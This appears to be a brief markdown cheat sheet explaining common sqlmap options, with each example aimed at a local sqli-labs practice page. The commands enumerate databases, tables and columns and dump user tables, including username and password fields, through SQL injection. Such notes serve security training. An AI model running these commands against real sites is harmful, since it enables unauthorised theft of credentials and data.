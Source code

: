 # SQLMap
- Below are the common options comes with SqlMap :
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 --current-user`
  - `--current-user` option is used to get the current database user.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 --dbs`
  - `--dbs` is used to get the list of databases.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 -D security --tables`
  - `-D database_name --tables` is used to get the list of tables present in database named **security**.
  -  `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 -D security -T users --dump`
  - `-D security -T users --dump` is used to dump data of table **users** of database **security**.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 -D security -T users --columns`
  - `-D security -T users --columns` is  used to show of structure of columns.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 -D security -T users -C "username, password" --dump`
  - `-D security -T users -C "username, password" --dump` is used to dump only specified columns mentioned with -C.
  - `python sqlmap.py --wizard`
  - `--wizard` switch invokes the interactive setup wizard wherre SQLMap asks for things in details, one by one, starting with the injection URL.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 --dump-all`
  - `--dump-all` is used to dumps all the data present inside every single database accessible through the injection.
  

